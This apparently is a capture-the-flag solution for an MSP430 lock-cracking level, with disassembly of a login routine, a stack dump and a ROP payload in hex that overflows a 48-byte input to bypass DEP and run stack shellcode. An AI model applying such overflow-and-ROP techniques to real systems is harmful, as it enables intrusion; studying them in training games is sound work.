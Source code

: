 44de <set_up_protection>
## Mark first page as exectuable (0x0 -> 0x1000)
44de:  0b12           push	r11
44e0:  0f43           clr	r15
44e2:  b012 b444      call	#0x44b4 <mark_page_executable>
44e6:  1b43           mov	#0x1, r11
## Mark pages 0x1 - 0x44 as writeable (0x1000 -> 0x4400)
44e8:  0f4b           mov	r11, r15
44ea:  b012 9c44      call	#0x449c <mark_page_writable>
44ee:  1b53           inc	r11
44f0:  3b90 4400      cmp	#0x44, r11
44f4:  f923           jnz	$-0xc <set_up_protection+0xa> 0x44e8
## Mark pages 0x45 - 0x100 as executable (0x4400 -> 0x10000)
44f6:  0f4b           mov	r11, r15
44f8:  b012 b444      call	#0x44b4 <mark_page_executable>
44fc:  1b53           inc	r11
44fe:  3b90 0001      cmp	#0x100, r11
4502:  f923           jnz	$-0xc <set_up_protection+0x18>
## Turn on DEP - pages are either executable or writable but never both
4504:  b012 cc44      call	#0x44cc <turn_on_dep>
4508:  3b41           pop	r11
450a:  3041           ret
450c:  3041           ret

4512 <login>
4512:  3150 f0ff      add	#0xfff0, sp
4516:  3f40 0024      mov	#0x2400, r15
451a:  b012 7a44      call	#0x447a <puts>
451e:  3f40 2024      mov	#0x2420, r15
4522:  b012 7a44      call	#0x447a <puts>
4526:  3e40 3000      mov	#0x30, r14
452a:  0f41           mov	sp, r15
452c:  b012 6244      call	#0x4462 <getsn> // read 0x30 (48) bytes to 0x3fee (Writeable only)
4530:  3f40 6524      mov	#0x2465, r15
4534:  b012 7a44      call	#0x447a <puts>
4538:  3150 1000      add	#0x10, sp
453c:  3041           ret

4438 <main>
4438:  b012 de44      call	#0x44de <set_up_protection>
443c:  b012 1245      call	#0x4512 <login>
4440:  0f43           clr	r15

44b4 <mark_page_executable>
44b4:  0e4f           mov	r15, r14
44b6:  0312           push	#0x0
44b8:  0e12           push	r14
44ba:  3180 0600      sub	#0x6, sp
44be:  3240 0091      mov	#0x9100, sr
44c2:  b012 1000      call	#0x10
44c6:  3150 0a00      add	#0xa, sp
44ca:  3041           ret


3fe0: 7444 0000 0000 0a00 9644 0000 3845 7465   tD.......D..8Ete
3ff0: 7374 7465 7374 0000 0000 0845 0000 4044   sttest.....E..@D
	  SP
4000: 0000 0000 0000 0000 0000 0000 0000 0000

## Attack stategy
Use rop to make the stack executable -- Null bytes are readable!!
Build the stack and jump to 44ba (mark_page_executable)
Jump to the stack
the stack should unlock the door
	pop sr - 3241
	call #0x10 - b012 1000

'3241b0121000' + '41' * 0x0a + 'ba44' + '3f00' + '0000' + 'ee3f' + '00ff'
3241b012100041414141414141414141ba443f000000ee3f00ff